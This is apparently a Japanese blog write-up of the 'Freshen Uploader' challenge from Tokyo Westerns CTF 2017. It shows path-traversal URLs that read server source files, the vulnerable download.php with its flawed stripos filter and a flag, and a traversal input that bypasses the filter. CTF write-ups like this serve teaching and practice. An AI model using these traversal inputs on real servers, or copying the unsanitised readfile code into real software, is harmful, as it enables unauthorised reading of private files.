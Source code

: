 ```yaml
---
layout: post
redirect_from:
  - /blog/2017/09/04/twctf-2017-freshen-uploader/
date: "2017-09-04T16:40:28+09:00"
tags: [ "ctf", "writeup", "twctf", "web", "php" ]
---
```


# Tokyo Westerns CTF 3rd 2017: Freshen Uploader

動的scoringと基本点の結果によりWelcome問より得点が低いの好き。

## solution

### 1

<http://fup.chal.ctf.westerns.tokyo/download.php?f=../index.php> のようにすれば`index.php`, `download.php`が取れる。

`download.php`:

``` php
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Contest-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

### 2

`file_list.php`を読みたいが普通に読みにいくと弾かれる。

`stripos($filename, 'file_list') != false` してるが`stripos`が返すのはindexなので: <http://fup.chal.ctf.westerns.tokyo/download.php?f=file_list/../../file_list.php>
